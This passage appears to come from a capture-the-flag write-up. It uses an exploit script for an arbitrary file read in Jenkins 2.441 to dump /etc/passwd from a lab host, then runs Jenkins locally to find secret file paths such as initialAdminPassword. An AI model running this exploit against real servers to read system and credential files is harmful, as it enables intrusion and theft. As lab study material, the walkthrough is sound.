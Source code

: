 ```shell
$ python 51993.py -u http://10.10.11.10:8080/ -p /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

Now, we see that Jenkins has the path in `/var/jenkins_home` but we don't know what files to read.
Deploy Jenkins locally to see all the interesting files and their paths.

```shell
$ docker pull jenkins/jenkins:2.441
2.441: Pulling from jenkins/jenkins
1b13d4e1a46e: Pull complete 
a618211e3ec8: Pull complete 
9dc069cd1830: Pull complete 
Digest: sha256:6bb8ea0eda544dddee8b3794936bd239e77281d59cce0f76586fa2c262e056f8
Status: Downloaded newer image for jenkins/jenkins:2.441
docker.io/jenkins/jenkins:2.441

$ docker images                              
REPOSITORY        TAG       IMAGE ID       CREATED         SIZE
jenkins/jenkins   2.441     fb91cdedcf6c   16 months ago   474MB

$ docker run --rm -p 8080:8080 jenkins/jenkins:2.441           
Running from: /usr/share/jenkins/jenkins.war
...

*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

e86d54dcc63f40b0af8440b05f2a6793

This may also be found at: /var/jenkins_home/secrets/initialAdminPassword

```
